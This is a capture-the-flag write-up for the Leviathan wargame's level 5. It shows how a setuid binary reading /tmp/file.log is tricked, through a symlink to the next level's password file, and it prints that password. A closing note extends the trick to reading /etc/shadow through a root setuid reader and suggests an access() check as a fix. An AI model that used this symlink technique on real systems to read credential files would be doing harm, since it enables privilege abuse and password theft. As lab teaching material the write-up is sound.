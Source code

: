 ﻿## Level5: leviathan5

Objective: Find the password to enter level6 **leviathan6**.

### This is how I found it:

1. In the home directory, a setuid executable **leviathan5** is present. I ran it to see what it does.

		leviathan5@leviathan:~$ ./leviathan5 
		Cannot find /tmp/file.log
		leviathan5@leviathan:~$

2. I instantly got the idea. Create a symbolic link to **/etc/leviathan_pass/leviathan6** with name **file.log** in **/tmp** directory. But wanted to confirm. So, I ran it with ltrace.

		leviathan5@leviathan:~$ ltrace ./leviathan5 
		__libc_start_main(0x56555760, 1, 0xffffd744, 0x56555840 <unfinished ...>
		fopen("/tmp/file.log", "r")                      = 0
		puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
		)                = 26
		exit(-1 <no return ...>
		+++ exited (status 255) +++
		leviathan5@leviathan:~$ 

* It is trying to open the file **/tmp/file.log** . 

3. Let us create that **symbolic link** and run **leviathan5**. 

		leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
		leviathan5@leviathan:~$ ls -l /tmp/file.log
		lrwxrwxrwx 1 leviathan5 leviathan5 30 May 31 09:20 /tmp/file.log -> /etc/leviathan_pass/leviathan6
		leviathan5@leviathan:~$ 
		leviathan5@leviathan:~$ ./leviathan5 
		UgaoFee4li
		leviathan5@leviathan:~$ 

And **GAME OVER!**

### Password for leviathan6: UgaoFee4li

-----------

**PS**:

1. The above vulnerability was a simple one to find out and exploit. But I feel it can be a very dangerous one. Consider the following scenario.

* There is an executable setuid to **root**, and just reads any file you give as input. 

* We can create symbolic links to **/etc/passwd** and **/etc/shadow**  and use that executable to read the contents. 

* The attacker can maybe bruteforce to get the password from the **hash** present in the shadow file. This will give the attacker root access.

* Even if attacker is not able to de-hash it, he can always read other sensitive information, even without any authentication.  

* How to **patch** this vulnerability: This is one method I could think about.
	
	* While coding the program / software, adding a call to **access()** will check if the **real user** has privileges to read the file or not. If **real user** does not have privileges, then the software should not display the contents of the file. 
	
	* **/etc/shadow** file can not be read by anyone except **root**. This is identified with the help of **access()** function, and vulnerability is patched.   
